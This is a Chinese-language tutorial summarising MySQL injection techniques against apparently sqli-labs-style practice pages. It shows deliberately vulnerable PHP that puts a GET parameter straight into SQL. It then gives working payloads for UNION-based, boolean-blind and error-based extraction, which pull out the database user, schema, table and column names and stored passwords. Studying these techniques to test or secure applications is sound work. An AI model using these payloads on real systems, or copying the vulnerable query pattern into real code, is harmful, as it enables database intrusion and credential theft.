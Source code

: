 # MYSQL注入总结
##数据库信息
设数据库```security```里有如下```users```表。

```
mysql> desc users;
+----------+-------------+------+-----+---------+----------------+
| Field    | Type        | Null | Key | Default | Extra          |
+----------+-------------+------+-----+---------+----------------+
| id       | int(3)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(20) | NO   |     | NULL    |                |
| password | varchar(20) | NO   |     | NULL    |                |
+----------+-------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

##构造注入SQL之一【GET - ErrorBased - IntegerBased】
###1. 漏洞代码

大致PHP代码如下

```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```
通过提交```?id=1 AND 1=1```和```?id=1 AND 1=2```来判断

###2. 猜解字段数

通过``` UNION ALL SELECT NULL```中的```NULL```来猜解表的字段数，例如对于```users```表采用```SELECT *```的话就需要把SQL构造成``` UNION ALL SELECT NULL, NULL, NULL#```，如果采用```SELECT username, password```就只需要``` UNION ALL SELECT NULL, NULL#```就能判断出了。因此如果程序中写的不是```SELECT *```的话，猜解出来的字段数与实际可能不太一样。

###3. 获取MySQL信息

如果想要获取数据库的一些信息可以利用已经显示出来的字段，在构造注入代码的时候将这些信息替换到已经显示的字段里。

例如对于```SELECT * FROM users WHERE id=1```，得到

```
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

对于```SELECT * FROM users WHERE id=1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```，还是得到一样的结果。说好的数据库信息呢？

```
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | Dumb     | Dumb     |
+------+----------+----------+
1 row in set (0.00 sec)
```

所以还要对```SQL```语句稍加改造```SELECT * FROM users WHERE id=-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```就可以得到想要的结果

```
+------+----------------+----------+
| id   | username       | password |
+------+----------------+----------+
| NULL | sqli@localhost | NULL     |
+------+----------------+----------+
1 row in set (0.00 sec)
```
因此如果网页上展示了username，那么就能直接得到当前连接数据库的用户名。因此我们提交的构造代码关键部分为```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```。另外需要注意的是构造出来的字段数要与原始正常```SQL```字段数相同。

* 获取当前连接数据库的用户名 ```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```
* 获取当前数据库的名字	```-1 UNION ALL SELECT NULL, DATABASE(), NULL```
* 获取当前数据库的版本号 ```-1 UNION ALL SELECT NULL, VERSION(), NULL```
* 获取当前服务器上数据库数量 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.SCHEMATA), NULL```
* 如果不能直接通过网页得到数据库数量，可以通过```1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema_name)) AS CHAR),CHAR(32)) FROM information_schema.SCHEMATA),1,1)) > ord('1') ```来猜解。
* 猜解表名```1 AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),CHAR(32))) FROM information_schema.SCHEMATA LIMIT 0,1),1,1)) > ord('a')``` 当猜解的字母的值只有```>=0```成功时，表示该表名猜解完成。（其中```LIMIT x,y```中```x```表示从第几条记录开始查询，```y```表示最多要查询多少条记录）。通过变动```MID```和```LIMIT```的参数就可以把所有表名猜解完。
* 猜解表的字段数 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.COLUMNS where table_name='users' AND table_schema='security'), NULL``` 或 ```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121)```
* 逐个猜解字段 ```-1 UNION ALL SELECT NULL, CONCAT(column_name, ' ', column_type), NULL FROM information_schema.COLUMNS where table_name='users' AND table_schema='security' LIMIT 0,1 ``` 或 ```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(column_name AS CHAR),CHAR(32)), ' ', IFNULL(CAST(column_type AS CHAR),CHAR(32))), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121) LIMIT 0,1```
* 猜解记录数```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM security.users```
* 逐个获取字段```-1 UNION ALL SELECT NULL, CONCAT(IFNULL(CAST(id AS CHAR),CHAR(32)), ' ',IFNULL(CAST(username AS CHAR),CHAR(32)), ' ', IFNULL(CAST(password AS CHAR),CHAR(32))), NULL FROM security.users LIMIT 0,1```

##构造注入SQL之二【GET - ErrorBased - SingleQuotes - String】
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'Your Login name:'. $row['username'];
	echo "<br>";
	echo 'Your Password:' .$row['password'];
} else {
	print_r(mysql_error());
}
```

###2.注入思路
通过提交```?id=1' AND '1'='1```和```?id=1' AND '1'='2```来判断。
其它与IntegerBased相似。如获取当前数据库的名字为```-1' UNION ALL SELECT NULL, DATABASE(), NULL AND '1'='```


##构造SQL注入之三【GET - Blind - BoolianBased】
###1.漏洞代码
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row) {
	echo 'You are in...........';
}
else {
	print_r(mysql_error());	
}
```
本代码的特点是不会在网页上输出任何字段值。
###2.注入思路
由于程序代码并不在网页上显示任何字段，因此我们如果想要得到数据库的一些信息得另外想办法。有一个方法是利用程序执行SQL时产生的错误会显示到网页上这一点，将要显示的信息嵌入错误信息里。对于MySQL利用的模板代码为```SELECT COUNT(*), CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;```会得到类似```ERROR 1062 (23000): Duplicate entry 'sqli@localhost1' for key 'group_key'```的错误提示。经典的MySQL报错代码还有

* ```SELECT 1,2 UNION SELECT COUNT(*), CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;```
* ```SELECT COUNT(*) FROM (SELECT 1 UNION SELECT NULL UNION SELECT !1) GROUP BY CONCAT(CURRENT_USER(), FLOOR(RAND(0)*2))```
* 如果RAND被禁,可以使用用户变量来报错 ```SELECT MIN(@a:=1) FROM information_schema.tables GROUP BY CONCAT(password, @a:=(@a+1)%2)```

在mysql 5.1版本中加入了两个XML函数，也可以用来报错

* ```mysql> SELECT * FROM users WHERE id=1 AND EXTRACTVALUE(1, CONCAT(0x5C, (SELECT username FROM users LIMIT 1)));
ERROR 1105 (HY000): XPATH syntax error: '\Dumb'```
* ```mysql> SELECT * FROM users WHERE id=1 AND 1=(UPDATEXML(1, CONCAT(0x5E24, (SELECT password FROM users LIMIT 1), 0x5E24), 1));
ERROR 1105 (HY000): XPATH syntax error: '^$Dumb^$'```

